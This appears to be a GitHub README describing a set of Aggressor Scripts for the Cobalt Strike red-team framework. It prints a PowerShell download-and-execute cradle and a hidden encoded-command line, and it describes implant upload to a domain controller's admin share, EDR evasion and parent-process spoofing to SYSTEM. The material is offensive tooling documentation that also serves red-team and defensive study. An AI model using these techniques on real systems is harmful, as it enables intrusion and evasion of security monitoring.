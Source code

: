 ## cobalt-arsenal

My published set of Aggressor Scripts for Cobalt Strike 4.0+

- **`better-upload.cna`** - Simple yet **super handy** script that overrides built-in `upload` command by having one that offers additional, second parameter - being _remote file path_. By default we're only able to upload file to the CWD. This implementation let's us upload wherever we like:

```
beacon> upload implant.exe \\DC1\c$\windows\temp\implant.exe
[*] Tasked Beacon to upload file (size: 929.25KB) from: (implant.exe) to: (\\DC1\c$\windows\temp\implant.exe)
[+] host called home, sent: 951655 bytes

```

- **`cwd-in-beacon-status-bar.cna`** - Simple Beacon console status bar enhancement showing Beacon's last known current working directory path, as well as adding fixed-width to last-seen meter. Additionally, this script enhances `cd` command to make it restore previous path if `cd -` was issued (and previous path is known).

- **`custom-powershell-hooks.cna`** - This script introduces several different methods for Powershell download and execution primitives, other than Cobalt Strike's default `(Net.WebClient).DownloadString` and `IEX()`:
```
		set POWERSHELL_DOWNLOAD_CRADLE {
			return "IEX (New-Object Net.Webclient).DownloadString(' $+ $1 $+ ')";
		}
		[...]

		set POWERSHELL_COMMAND {
		[...]
			return "powershell -nop -w hidden -encodedcommand $script";
		}
```

Aforementioned methods are heavily flagged these days by EDRs and AVs so we would prefer to avoid their use. It so happens that Cobalt Strike by default embeds them excessively, generating lot of noise in such systems. We can tell Cobalt Strike to structure it's Powershell use patterns differently. However, some of introduced custom methods may not work. In such situations, we can always switch back to battle tested Cobalt Strike defaults by setting `$USE_UNSAFE_ENCODEDCOMMAND_AND_IEX = 2;` in the script's header.

- **`FilesColor.cna`** - Color Coded Files Listing. Similar to `ProcessColor.cna` by [@r3dQu1nn](https://github.com/harleyQu1nn/AggressorScripts) this script colorizes file listing outputs based on file type and extension. **It also tries to keep track of uploaded files to have them highlighted in files listing as well**. The Colors scheme information will be showed only three times by default, unless configured otherwise via global variable named `$TIMES_TO_DISPLAY_COLORS_SCHEME`.

![FilesColor example](https://raw.githubusercontent.com/mgeeky/cobalt-arsenal/master/img/1.PNG)

- **`Forwarded_Ports.cna`** - Keeps track of configured remote port forwardings on all Beacons and lets kill them easily. 

Using `rportfwd` here and there quickly consumes pool of available local ports from which to forward traffic outbound and keeping track of them manually becomes tedious on a long-haul projects. This script aims to fill that gap by collecting these commands and presenting them in a nice visualization pane (concept & implementation based on previous work of @ramen0x3f [leave_no_trace](https://github.com/ramen0x3f/AggressorScripts/blob/master/leave_no_trace.cna), @001SPARTaN and @r3dqu1nn [logvis.cna](https://github.com/invokethreatguy/AggressorCollection/blob/master/harleyQu1nn/logvis.cna) ).

- **`Highlight_Beacons.cna`** - Highlights Beacons for a specified time duration (`$HIGHLIGHT_DURATION`) on Initial check-in event, when exiting (and after Beacon exited) and after each Beacon command's output. Configurable colors and events found in `%HIGHLIGHTS` dictionary. Hint: Specify `output => ""` to disable highlighting new Beacon command outputs.

- **`httprequest.cna`** - Safe & sound HTTP request implementation for Cobalt Strike 4.0 Aggressor Script. Works with HTTP & HTTPS, GET/POST/etc. + redirections. Rationale: I've tested various implementations of HTTP request sending subroutines written in Sleep for CS, but none of them matched by needs - working support for GET/POST, redirections handling and exceptions-safe execution. So I came up with my own implementation. ([gist](https://gist.github.com/mgeeky/2d7f8c2a6ffbfd23301e1e2de0312087)) 

- **`Payload_Variants_Generator.cna`** - This script generates stageless payload variants per each available architecture and output format type. Compatible with Cobalt Strike 4.0+.

- **`settings.cna`** - Script that offers sample implementation for `saveOptions` and `loadOptins` routines, intended to store & restore settings from an external file.

- **`smart-autoppid.cna`** - Autoppid - script that smartely invokes PPID for every new checkin in Beacon. PPID command requires invoked Beacon to have the same Integrity level as the process it want's to assume as it's Parent. That's due to how InitializeProcThreadAttributeList with PROC_THREAD_ATTRIBUTE_PARENT_PROCESS works. In order to avoid harcoded explorer.exe PID assumption, we can look around for a configurable process name and then try to find that process running on the highest available for us integrity level. In that case, unprivileged user would assume PPID of for instance svchost.exe running as that user, wherease the privileged one - could go for the svchost.exe running as NT AUTHORITY\SYSTEM. We aim to smartely pick the most advantageous target, in a dynamic fashion.

The same command is also exposed as an alias:

```
beacon> autoppid
[*] Tasked Beacon to find svchost.exe running as SYSTEM and make it the PPID.
[.] host called home, sent: 12 bytes
Future post-ex jobs will be spawned with fake PPID set to:
	svchost.exe	604	700	x64	NT AUTHORITY\SYSTEM	0

[*] Tasked beacon to spoof 700 as parent process
[.] host called home, sent: 12 bytes
```

